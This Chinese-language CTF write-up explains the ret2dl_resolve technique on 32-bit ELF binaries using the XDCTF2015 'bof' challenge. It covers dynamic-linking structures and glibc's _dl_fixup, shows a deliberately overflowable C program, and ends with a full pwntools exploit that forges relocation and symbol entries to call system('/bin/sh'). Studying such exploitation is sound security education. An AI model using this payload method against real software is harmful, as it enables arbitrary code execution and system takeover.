







穿插例题XDCTF2015 bof

### ELF程序的基本相关结构

- **`dynmic`段**

`dynmic` 段里面保存了动态链接器所需要的基本信息。比如依赖于哪些共享对象、动态链接符号表的位置、动态链接重定位表的位置、共享对象初始化代码的地址等。 

相关结构体

```c
typedef struct {
    Elf32_Sword     d_tag;
    union {
        Elf32_Word  d_val;
        Elf32_Addr  d_ptr;
    } d_un;
} Elf32_Dyn;
extern Elf32_Dyn_DYNAMIC[];
```

readelf -d elf查看



 `Elf32_Dyn`结构由一个类型值加上一个附加的数值或指针，对于不同的类型，后面附加的数值或者指针有着不同的含义。下面给出和延迟绑定相关的类型值的定义。 



- **节区中包含目标文件的所有信息。节的相关结构体。**

```c
typedef struct
{
  Elf32_Word	sh_name;		/* Section name (string tbl index) 节区头部字符串节区的索引*/
  Elf32_Word	sh_type;		/* Section type 节区类型*/
  Elf32_Word	sh_flags;		/* Section flags 节区标志，用于描述属性*/
  Elf32_Addr	sh_addr;		/* Section virtual addr at execution节区的内存映像 */
  Elf32_Off	sh_offset;		/* Section file offset 节区的文件偏移*/
  Elf32_Word	sh_size;		/* Section size in bytes 节区的长度*/
  Elf32_Word	sh_link;		/* Link to another section 节区头部表索引链接*/
  Elf32_Word	sh_info;		/* Additional section information 附加信息*/
  Elf32_Word	sh_addralign;		/* Section alignment 节区对齐约束*/
  Elf32_Word	sh_entsize;		/* Entry size if section holds table 固定大小的节区表项的长度*/
} Elf32_Shdr;
```


readelf -S elf查看elf程序的节区




- **`.rel.plt`节、`.rel.dyn`节与`.got`节、`.got.plt`节的关系**

`.rel.plt`节用于函数重定位，`.rel.dyn`节用于变量重定位

相关的结构体

```c
typedef struct {
    Elf32_Addr r_offset;    // 对于可执行文件，此值为虚拟地址
    Elf32_Word r_info;      // 符号表索引
} Elf32_Rel;

#define ELF32_R_SYM(val)		((val) >> 8)
#define ELF32_R_TYPE(val)		((val) & 0xff)
#define ELF32_R_INFO(sym, type)		(((sym) << 8) + ((type) & 0xff))
```

readelf -r elf查看rel相关节内容



r_offset即相应变量/函数got表的地址（指向`.got`节/`.got.plt`节中的某一项）

即 `.got`节保存全局变量偏移表，`.got.plt`节保存全局函数偏移表。`.got.plt`对应着`Elf32_Rel`结构中`r_offset`的值。 


- **`.dynsym`节**

`.dynsym`节相关结构体

```c
typedef struct
{
    Elf32_Word st_name;     // Symbol name(string tbl index)
    Elf32_Addr st_value;    // Symbol value
    Elf32_Word st_size;     // Symbol size
    unsigned char st_info;  // Symbol type and binding
    unsigned char st_other; // Symbol visibility under glibc>=2.2
    Elf32_Section st_shndx; // Section index
} Elf32_Sym;
```

 readelf -s elf查看



`.dynsym`节包含了动态链接符号表。Elf32\_Sym[num]中的num对应着ELF32\_R\_SYM(Elf32_Rel->r\_info)

根据宏定义

```c
#define ELF32_R_SYM(val)		((val) >> 8)
```

可以知道

```c
ELF32_R_SYM(Elf32_Rel->r_info) = (Elf32_Rel->r_info) >> 8
```

例如write的索引值为 ELF32\_R\_SYM(0x607) = 0x607 >> 8 = 6。而Elf32_Sym[6]即保存着write的符号表信息。并且ELF32\_R\_TYPE(0x607) = 7，对应`R_386_JUMP_SLOT`。 


- **`.dynstr`节**

`.dynstr`节包含了动态链接的字符串。这个节以\x00作为开始和结尾，中间每个字符串也以\x00间隔。

通过Elf32_Sym->st_name来确定相应函数字符串的位置

字符串地址 = `.dynstr`节起始地址 + Elf32_Sym[(Elf32_Rel->r_info) >> 8]->st_name




- **`.plt`节**

 `.plt`节是过程链接表。过程链接表把位置独立的函数调用重定向到绝对位置。 


- **动态链接过程**

程序第一次执行write函数时的过程



 jmp 0x8048470即`.plt`节的起始位置（压入linkmap执行_dl_runtime_resolve）

[\_GLOBAL\_OFFSET\_TABLE\_+4]中是linkmap的地址

 [\_GLOBAL\_OFFSET\_TABLE\_+8]中是_dl_runtime_resolve函数入口地址

以上指令相当于执行了`_dl_runtime_resolve(link_map, reloc_arg)`，该函数会完成符号的解析，即将真实的write函数地址写入其GOT条目中，随后把控制权交给write函数。 （其中reloc_arg即一开始的push 0x20）


 \_dl\_fixup是在glibc-2.23/elf/dl-runtime.c实现的，我们只关注一些主要函数。 

```c
_dl_fixup(struct link_map *l, ElfW(Word) reloc_arg)
{
    // 首先通过参数reloc_arg计算重定位入口，这里的JMPREL即.rel.plt，reloc_offset即reloc_arg
    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
    // 然后通过reloc->r_info找到.dynsym中对应的条目
    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
    // 这里还会检查reloc->r_info的最低位是不是R_386_JUMP_SLOT=7
    assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
    // 接着通过strtab+sym->st_name找到符号表字符串，result为libc基地址
    result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope, version, ELF_RTYPE_CLASS_PLT, flags, NULL);
    // value为libc基址加上要解析函数的偏移地址，也即实际地址
    value = DL_FIXUP_MAKE_VALUE (result, sym ? (LOOKUP_VALUE_ADDRESS (result) + sym->st_value) : 0);
    // 最后把value写入相应的GOT表条目中
    return elf_machine_fixup_plt (l, result, reloc, rel_addr, value);
}
```

- 符号解析过程


ELF_rel_addr = `.rel.plt`节起始地址 + reloc_index

ELF_sym_addr = `.dynsym`节起始地址 + sizeof(ELF_sym) * (r_info>>8)

str_addr = `.dynstr`节起始地址 + st_name

### 32位下利用方式

1.控制`eip`为PLT[0]的地址，只需传递一个`index_arg`参数
2.控制`index_arg`的大小，使`reloc`的位置落在可控地址内
3.伪造`reloc`的内容，使`sym`落在可控地址内
4.伪造`sym`的内容，使`name`落在可控地址内
5.伪造`name`为任意库函数，如`system` 


漏洞程序源码 bof.c

```c
#include<unistd.h>
#include<stdio.h>
#include<string.h>
void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```


exp:

```python
from pwn import*
context.log_level = 'debug'
p = process('./bof')
elf = ELF('./bof')
base_stage = 0x804a800
p3_ret = 0x804856c 
leave_ret = 0x8048481
pebp_ret = 0x8048453

payload1 = 'a'*112+p32(elf.plt['read'])+p32(p3_ret)+p32(0)+p32(base_stage)+p32(0x200)
payload1 += p32(pebp_ret)+p32(base_stage)+p32(leave_ret)

fake_rel_addr = base_stage+0x50
fake_sym_addr = base_stage + 0x68
system_str = base_stage + 0x80
sh = base_stage+0x90
plt_start = elf.get_section_by_name('.plt').header.sh_addr
rel_plt0 = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym0 = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr0 = elf.get_section_by_name('.dynstr').header.sh_addr

rel_offset = fake_rel_addr - rel_plt0
r_info = ((fake_sym_addr - dynsym0)/0x10)<<8
r_info += 7
fake_rel = p32(elf.got['write'])+p32(r_info)
fake_sym = p32(system_str-dynstr0)+p32(0)+p32(0)+p32(0x12)

payload2 = p32(0)+p32(plt_start)
payload2 += p32(rel_offset)+p32(0)+p32(sh)
payload2 = payload2.ljust(0x50,'\x00')
payload2 += fake_rel.ljust(0x10,'\x00')
payload2 += ('\x00'*8+fake_sym).ljust(0x20,'\x00')
payload2 += 'system'.ljust(0x10,'\x00')
payload2 += '/bin/sh'.ljust(0x10,'\x00')

#gdb.attach(p,'b *'+str(leave_ret))
p.sendafter('!',payload1)
pause()
#sleep(1)
p.send(payload2)

p.interactive()

```


参考链接：

http://pwn4.fun/2016/11/09/Return-to-dl-resolve/

https://ray-cp.github.io/archivers/ret2dl_resolve_analysis